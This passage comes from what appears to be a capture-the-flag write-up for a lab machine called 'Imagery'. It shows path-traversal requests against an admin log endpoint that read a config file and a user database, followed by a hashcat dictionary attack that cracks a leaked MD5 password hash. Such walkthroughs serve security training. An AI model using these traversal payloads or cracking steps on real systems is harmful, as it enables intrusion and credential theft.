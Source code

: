 Now we can use the stolen session cookie to login as a admin user.

We find in the source code of the web application (which is embedded in a script tag in the HTML) that there is an endpoint `/admin/get_system_log` that takes a parameter `log_identifier` which is vulnerable to LFI.
We can use this vulnerability to read arbitrary files from the server. We can start by reading the `config.py` file to find out where the database is stored:

```
GET /admin/get_system_log?log_identifier=../../../../../../home/web/web/config.py 
```
```
...
DATA_STORE_PATH = 'db.json'
...
```

We find the database file is stored in `/home/web/web/db.json`. We can read this file using, again, the LFI vulnerability:
```
GET /admin/get_system_log?log_identifier=../../../../../../home/web/web/db.json
```
```
{
    "username": "admin@imagery.htb",
    "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
    "isAdmin": true,
    "displayId": "a1b2c3d4",
    "login_attempts": 0,
    "isTestuser": false,
    "failed_login_attempts": 0,
    "locked_until": null
},
{
    "username": "testuser@imagery.htb",
    "password": "2c65c8d7bfbca32a3ed42596192384f6",
    "isAdmin": false,
    "displayId": "e5f6g7h8",
    "login_attempts": 0,
    "isTestuser": true,
    "failed_login_attempts": 0,
    "locked_until": null
},
```

We try to crack the passwords of `admin` and `testuser` using `hashcat`:

```bash
hashcat -a 0 -m0 creds /usr/share/wordlists/rockyou.txt
```
```
2c65c8d7bfbca32a3ed42596192384f6:iambatman
```
We find the password of `testuser@imagery.htb` is `iambatman`. We can use this password to login as `testuser` in the web application.

